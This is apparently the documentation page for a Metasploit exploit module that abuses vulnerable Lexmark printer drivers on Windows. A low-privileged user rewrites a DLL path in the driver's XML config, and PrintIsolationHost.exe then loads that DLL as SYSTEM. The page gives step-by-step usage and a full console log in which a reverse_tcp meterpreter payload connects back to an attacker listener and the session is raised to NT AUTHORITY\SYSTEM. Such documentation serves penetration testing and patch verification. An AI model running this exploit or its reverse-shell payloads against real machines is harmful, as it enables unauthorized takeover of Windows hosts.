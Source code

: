 ## Vulnerable Application

[Various Lexmark printer drivers](http://support.lexmark.com/index?page=content&id=TE953) allow escalation of privileges on Windows systems.

For vulnerable drivers, a low-privileged user can
modify an XML configuration file and replace a
DLL path with a malicious DLL path.

`PrintIsolationHost.exe`, a Windows process running
as NT AUTHORITY\SYSTEM, loads driver-specific DLLs
during the installation of a printer. A user can
elevate to SYSTEM by writing a malicious DLL to
the vulnerable configuration file and adding a new
printer with a vulnerable driver.

This module leverages the `prnmngr.vbs` script
to add and delete printers.

## Verification Steps

1. Install a vulnerable Lexmark driver
2. Start msfconsole
3. Get a session with basic privileges
4. Do: `use exploit/windows/local/lexmark_driver_privesc`
5. Do: `set SESSION <sess_no>`
6. Do: `run`
7. You should get a shell running as SYSTEM.

## Scenarios

### Tested with Lexmark Universal Print Driver v2 `v2.10.0.5`

```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.0.0.8
lhost => 10.0.0.8
msf6 exploit(multi/handler) > set lport 1270
lport => 1270
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.0.0.8:1270 
[*] Sending stage (200262 bytes) to 10.0.0.7
[*] Meterpreter session 1 opened (10.0.0.8:1270 -> 10.0.0.7:50356) at 2021-08-04 16:01:23 -0400

meterpreter > getuid
Server username: MOURNLAND\lowlevel
meterpreter > sysinfo
Computer        : MOURNLAND
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use lexmark_driver_privesc
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

Matching Modules
================

   #  Name                                          Disclosure Date  Rank    Check  Description
   -  ----                                          ---------------  ----    -----  -----------
   0  exploit/windows/local/lexmark_driver_privesc  2021-07-22       normal  Yes    Lexmark Driver Privilege Escalation


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/local/lexmark_driver_privesc

[*] Using exploit/windows/local/lexmark_driver_privesc
msf6 exploit(windows/local/lexmark_driver_privesc) > set session 1
session => 1
msf6 exploit(windows/local/lexmark_driver_privesc) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/lexmark_driver_privesc) > set lhost 10.0.0.8
lhost => 10.0.0.8
msf6 exploit(windows/local/lexmark_driver_privesc) > run

[*] Started reverse TCP handler on 10.0.0.8:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Lexmark GDL file is present
[*] Adding printer dnvCihT...
[*] Sending stage (200262 bytes) to 10.0.0.7
[*] Meterpreter session 2 opened (10.0.0.8:4444 -> 10.0.0.7:50382) at 2021-08-04 16:03:23 -0400
[*] Deleting printer dnvCihT

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

## Options

